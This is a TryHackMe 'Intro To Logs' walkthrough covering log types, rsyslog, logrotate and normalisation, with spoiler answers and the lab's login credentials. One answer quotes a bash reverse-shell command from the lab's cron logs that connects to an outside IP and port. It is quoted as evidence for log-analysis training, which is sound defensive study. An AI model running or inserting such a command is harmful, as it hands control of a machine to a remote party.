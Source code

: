 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## TryHackMe SOC 2 Learning Pathway

### Introduction

This is a guideo to [tryhackme: Intro To Logs](https://tryhackme.com/room/introtologs)
Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall
password: Logs321!

*Q1:  What is the name of your colleague who left a note on the Desktop?*

> cat Desktop/note.txt (or open in the GUI) 

<details>
  <summary>Spoiler warning: Answer</summary>
  
    Perry

</details>
 
*Q2: What is  full path to the suggested log file for initial investigation?*

> look in cat output of the note!

<details>
  <summary>Spoiler warning: Answer</summary>
  
    /var/log/gitlab/nginx/access.log

</details>

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

*Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?*

> Task 2 was discussing an Nginx server which is a web server...
<details>
  <summary>Spoiler warning: Answer</summary>

    Web Server Log 

</details>

*Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?*

> The materials clearly list what format the Nginx web server uses by default.

<details>
  <summary>Spoiler warning: Answer</summary>
    
    combined

</details>


### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

*Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?*

> after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...
<details>
  <summary>Spoiler warning: Answer</summary>
    
    stansimon

</details>

*Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?*

> cat /etc/rsyslog.d/99-websrv-02-cron.conf

<details>
  <summary>Spoiler warning: Answer</summary>
    
    10.10.10.101

</details>


*Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?*

> cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

<details>
  <summary>Spoiler warning: Answer</summary>
    
    /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

</details>

 

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

*Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?*

> cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

<details>
  <summary>Spoiler warning: Answer</summary>
    
    24

</details>

*Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?*

> See the output for the last question.

<details>
  <summary>Spoiler warning: Answer</summary>
    
    hourly

</details>

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

*Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?*

> OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

<details>
  <summary>Spoiler warning: Answer</summary>
    
    No date field

</details>

*What is the process of standardising parsed data into a more easily readable and query-able format?*

> This is what we did to the log file with all those awk sed and sort and uniq commands...

<details>
  <summary>Spoiler warning: Answer</summary>
    
    normalisation

</details>


*What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?*

> This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

<details>
  <summary>Spoiler warning: Answer</summary>
    
    enrichment

</details>

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
